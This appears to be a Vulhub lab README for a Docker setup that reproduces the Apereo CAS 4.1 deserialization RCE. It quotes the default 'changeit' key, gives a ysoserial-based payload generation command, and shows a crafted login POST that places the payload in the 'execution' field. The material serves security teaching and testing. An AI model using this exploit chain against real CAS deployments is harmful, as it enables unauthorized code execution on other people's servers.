



# Apereo CAS 4.1 Deserialization RCE Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Apereo CAS is a enterprise single sign-on system. There is an issue in CAS’s attempts to deserialize objects via the Apache Commons Collections library, which cased a RCE vulnerability.

Reference:

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## Environment Setup

Execute following commands to start an Apereo CAS 4.1.5：

```
docker-compose up -d
```

After the Apereo CAS is started, visiting `http://your-ip:8080/cas/login` to see the login page.

## Exploit

The out-of-the-box default configuration of Apereo CAS before 4.1.7, is using a default secret key `changeit`:

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

We can try to use [Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack) to generate a encrypted [ysoserial](https://github.com/frohoff/ysoserial)'s serialized object:

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```



Then, intercept and modify the http request from login action of `/cas/login`, put the payload into `execution`'s value:

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```



Congrats, `touch /tmp/success` has been successfully executed:


